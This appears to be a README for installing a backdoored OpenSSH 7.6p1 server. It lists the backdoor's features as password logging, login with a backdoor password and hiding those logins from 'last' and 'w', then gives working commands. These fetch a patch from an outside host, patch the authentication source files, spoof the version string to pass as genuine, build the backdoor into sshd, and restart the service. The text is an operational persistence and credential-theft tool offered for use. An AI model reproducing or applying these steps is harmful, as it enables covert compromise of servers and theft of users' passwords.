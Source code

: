 1. password logging
2. logon using a backdoor password
3. logon through the patched sshd results in nothing in output from `last` and `w`

#### donwload package
wget https://ftp4.usa.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.6p1.tar.gz   
wget https://vps/openssh-7.6p1-patch.tar.gz   

#### copy backdoor files and patch   
cp openssh-7.6p1-patch/backdoor.* openssh-7.6p1   
cd openssh-7.6p1   

patch < backdoor.patch   

patching file auth.c   
patching file auth-pam.c   
patching file auth-passwd.c   
patching file sshconnect2.c   
patching file sshlogin.c   

#### Check and remember version of original openssh   
ssh -V   
OpenSSH_7.6p1, OpenSSL 1.0.2k-fips  26 Jan 2017   

#### Change version.h   
sed -i 's/#define SSH_VERSION\t".*"/#define SSH_VERSION\t"OpenSSH_7.6"/' version.h   
sed -i 's/#define SSH_PORTABLE\t".*"/#define SSH_PORTABLE\t"p1"/' version.h   

#### Install required library   
yum -y install zlib-devel openssl-devel pam-devel   

#### run configure   
#Notice: Confirm the location of the original openssh and configure files installed. It's important for command ./configure --prefix   
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5   

#### add backdoor.o to Makefile  
``` 
sed -i 's/ssh\.o/ssh\.o backdoor\.o/' Makefile   
sed -i 's/sshd\.o/sshd\.o backdoor\.o/' Makefile   
```

#### compile and install   
make   
make install   

#### restart sshd server   
sed -i 's/Type=.*/Type=fork/'  /lib/systemd/system/sshd.service #if huge when restart sshd   
systemctl daemon-reload #if need   
systemctl restart sshd   

#### view.c show the password record   

